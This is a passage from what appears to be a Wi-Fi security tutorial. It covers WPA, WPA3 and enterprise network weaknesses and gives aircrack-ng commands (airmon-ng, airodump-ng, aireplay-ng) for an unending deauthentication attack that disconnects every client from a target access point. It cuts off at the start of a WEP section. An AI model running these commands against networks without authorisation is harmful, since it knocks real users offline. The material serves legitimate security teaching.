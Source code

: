On the other hand, WPA networks, although more secure, also have vulnerabilities. Attacks usually involve capturing the authentication handshake, followed by brute-force or dictionary attacks. The effectiveness of these attacks depends on the strength of the passwords used; weak passwords can be easily compromised. So, although WPA offers a significant improvement over WEP, security in personal networks still depends on the implementation of strong passwords and good security practices. The WPA3-Personal protocol, which uses Simultaneous Authentication of Equals (SAE), offers a significant improvement in security, especially against dictionary and brute-force attacks. By capturing the authentication handshake, these attacks become much more difficult, as SAE protects against attempts to reuse passwords. In addition, WPA3 also implements Message Integrity Protection (PMF), which adds an additional layer of security against packet spoofing and traffic manipulation attacks.

-> Wi-Fi Enterprise  
In enterprise networks using 802.1X, WPA2-Enterprise, and WPA3-Enterprise, for an attacker to gain access to the tunnel and perform an attack, the attacker must be positioned between the client and the access point (AP) to which the client is attempting to connect. Clients are often misconfigured and do not validate the identity of the RADIUS server. This allows the attacker to provide a false authentication service, tricking the client into connecting to the attacker's network. This vulnerability highlights the importance of proper configuration and certificate validation to ensure secure connections in enterprise environments.

### Attack Deauthentication
The WPA1 and WPA2 protocols have a vulnerability related to denial of service (DoS) attacks due to the lack of robust authentication in control packets, such as deauthentication packets. This vulnerability allows an attacker to send spoofed deauthentication packets to disconnect clients from the network. The attack can be carried out without the attacker being connected to the network, simply by sending deauthentication packets to a client or group of clients. In contrast, WPA3, with Protected Management Frames (PMF), offers significant mitigation of this vulnerability, ensuring protection against deauthentication attacks.

-> Enable monitoring mode with airmon-ng
```bash
airmon-ng start wlan0
```

-> Obtain ESSID and target channel by passively monitoring Wi-Fi networks
```bash
airodump-ng wlan0
```

-> Monitor clients connected to the chosen Wi-Fi network
```bash
airodump-ng wlan0 --channel 6 --essid <ssid>
```

-> Use aireplay to perform deauth attack on all clients, the value 0 passed to parameter 0 will perform deauth repeatedly without stopping
```bash
aireplay-ng wlan0 -0 0 -a <bssid>
```

### WEP OPN Attack with connected clients 
-> Obtain ESSID and target channel by passively monitoring Wi-Fi networks
```bash
airodump-ng wlan0
```
